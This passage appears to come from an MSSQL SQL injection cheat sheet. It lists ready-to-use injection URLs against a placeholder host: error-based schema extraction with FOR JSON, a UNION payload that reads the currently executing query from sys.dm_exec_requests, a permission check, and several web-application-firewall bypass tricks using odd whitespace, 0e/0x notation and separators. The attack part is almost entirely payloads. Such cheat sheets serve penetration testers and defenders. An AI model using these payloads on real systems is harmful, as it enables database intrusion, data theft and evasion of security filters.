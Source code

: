 ![](https://swarm.ptsecurity.com/wp-content/uploads/2020/11/5.png)

Error-based vectors need an alias or a name, since the output of expressions without either cannot be formatted as JSON.

```
https://vuln.app/getItem?id=1'+and+1=(select+concat_ws(0x3a,table_schema,table_name,column_name)a+from+information_schema.columns+for+json+auto)-- 
```

![](https://swarm.ptsecurity.com/wp-content/uploads/2020/11/7.png)

## **Retrieving the current query**

The current SQL query being executed can be retrieved from access `sys.dm_exec_requests` and `sys.dm_exec_sql_text`:

```
https://vuln.app/getItem?id=-1%20union%20select%20null,(select+text+from+sys.dm_exec_requests+cross+apply+sys.dm_exec_sql_text(sql_handle)),null,null
```

![](https://swarm.ptsecurity.com/wp-content/uploads/2020/11/9.png)

**Permissions:** If the user has VIEW SERVER STATE permission on the server, the user will see all executing sessions on the instance of SQL Server; otherwise, the user will see only the current session.

```sql
# Check if you have it
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='VIEW SERVER STATE';
```

## **Little tricks for WAF bypasses**

Non-standard whitespace characters: %C2%85 или %C2%A0:

```
https://vuln.app/getItem?id=1%C2%85union%C2%85select%C2%A0null,@@version,null-- 
```

Scientific (0e) and hex (0x) notation for obfuscating UNION:

```
https://vuln.app/getItem?id=0eunion+select+null,@@version,null--
 
https://vuln.app/getItem?id=0xunion+select+null,@@version,null-- 
```

A period instead of a whitespace between FROM and a column name:

```
https://vuln.app/getItem?id=1+union+select+null,@@version,null+from.users-- 
```

\N seperator between SELECT and a throwaway column:

```
https://vuln.app/getItem?id=0xunion+select\Nnull,@@version,null+from+users-- 
```
